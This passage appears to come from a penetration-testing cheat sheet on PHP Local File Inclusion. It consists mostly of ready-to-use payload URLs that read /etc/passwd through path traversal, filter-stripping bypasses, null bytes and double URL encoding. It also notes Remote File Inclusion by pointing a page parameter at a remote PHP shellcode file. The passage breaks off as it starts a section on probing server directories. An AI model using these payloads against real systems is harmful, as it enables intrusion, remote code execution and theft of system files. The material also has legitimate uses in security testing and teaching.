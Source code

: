 All the examples are for Local File Inclusion but could be applied to Remote File Inclusion also (page=[http://myserver.com/phpshellcode.txt\\](http://myserver.com/phpshellcode.txt\)/).



```
http://example.com/index.php?page=../../../etc/passwd
```

### traversal sequences stripped non-recursively <a href="#traversal-sequences-stripped-non-recursively" id="traversal-sequences-stripped-non-recursively"></a>

```
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```

#### **Null byte (%00)** <a href="#null-byte-00" id="null-byte-00"></a>

Bypass the append more chars at the end of the provided string (bypass of: $\_GET\['param']."php")

```
http://example.com/index.php?page=../../../etc/passwd%00
```

This is **solved since PHP 5.4**

### **Encoding** <a href="#encoding" id="encoding"></a>

You could use non-standard encondings like double URL encode (and others):



```
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

### From existent folder <a href="#from-existent-folder" id="from-existent-folder"></a>

Maybe the back-end is checking the folder path:

```
http://example.com/index.php?page=utils/scripts/../../../../../etc/passwd
```

### Exploring File System Directories on a Server <a href="#exploring-file-system-directories-on-a-server" id="exploring-file-system-directories-on-a-server"></a>

The file system of a server can be explored recursively to identify directories, not just files, by employing certain techniques. This process involves determining the directory depth and probing for the existence of specific folders. Below is a detailed method to achieve this:
